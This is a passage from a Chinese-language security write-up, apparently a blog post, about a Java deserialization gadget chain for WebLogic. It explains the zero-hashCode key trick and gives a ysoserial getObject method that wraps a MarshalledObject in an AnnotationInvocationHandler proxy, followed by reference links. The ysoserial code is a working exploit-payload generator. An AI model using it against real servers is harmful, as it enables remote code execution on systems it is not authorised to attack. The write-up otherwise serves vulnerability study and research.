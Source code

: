 this.memberValues 其实就是之前构造函数的第二个参数HashMap，要保证memberValues只有一个，并且127 * ((String)var3.getKey()).hashCode()为0，那么只能是满足条件

```
map.put("f5a5a608", marshell);
```

### <a class="reference-link" name="0x4%20%E6%B7%BB%E5%8A%A0%E5%88%B0ysoserial"></a>0x4 添加到ysoserial

```
public Object getObject(final String command) throws Exception `{`
        final Object marshell = new MarshalledObject("1");
        String zeroHashCodeStr = "f5a5a608";
        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");
        InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Serializable.class, map);
        Reflections.setFieldValue(tempHandler, "type", MarshalledObject.class);
        Serializable proxy = Gadgets.createProxy(tempHandler, Serializable.class);
        LinkedHashSet set = new LinkedHashSet(); // maintain order
        set.add(marshell);
        set.add(proxy);
        byte[] asBytes = Base64.decode("serialize data");
        Reflections.setFieldValue(marshell,"objBytes",asBytes);
        map.put(zeroHashCodeStr, marshell); // swap in real object

        return set;

    `}`
```

有时间学习下关于weblogic的反序列化回显以及历史漏洞。



## 参考文献

[https://venusense.com/new_type/aqtg/20210419/22599.html](https://venusense.com/new_type/aqtg/20210419/22599.html)<br>[https://mp.weixin.qq.com/s/OxeYufM-ZX_SdbV5zjWV7A](https://mp.weixin.qq.com/s/OxeYufM-ZX_SdbV5zjWV7A)<br>[https://b1ngz.github.io/java-deserialization-jdk7u21-gadget-note/](https://b1ngz.github.io/java-deserialization-jdk7u21-gadget-note/)
